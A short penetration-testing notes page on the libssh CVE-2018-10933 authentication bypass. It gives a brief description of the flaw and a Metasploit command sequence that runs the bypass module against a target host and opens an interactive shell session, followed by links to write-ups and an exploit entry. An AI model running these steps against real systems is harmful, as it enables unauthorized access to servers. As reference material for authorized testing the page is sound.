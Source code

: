 # libssh 0.8.1 - CVE 2018-10933

## Theory

### Description

In late 2018, a critical vulnerability was uncovered in the libssh server code. A vulnerability within the server code can enable a client to bypass the authentication process and set the internal state machine maintained by the library to authenticate, enabling the (otherwise prohibited) creation of channels.

**Read More:** [https://www.libssh.org/security/advisories/CVE-2018-10933.txt ](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)



***

## Practical

### Metasploit

```
msfconsole -q

use auxiliary/scanner/ssh/libssh_auth_bypass

set RHOSTS <IP>

set RPORT <ssh port>

set SPAWN_PTY true

run

# Interact with the session

sessions

sessions -i <session number>
```



***

## FOR FURTHER READING

* [https://blog.pentesteracademy.com/libssh-authentication-bypass-abd8fff5b3db](https://blog.pentesteracademy.com/libssh-authentication-bypass-abd8fff5b3db)
* [https://www.exploit-db.com/exploits/45638](https://www.exploit-db.com/exploits/45638)
* [https://ine.com/blog/libssh-auth-bypass-cve-2018-10933](https://ine.com/blog/libssh-auth-bypass-cve-2018-10933)
* [https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d)

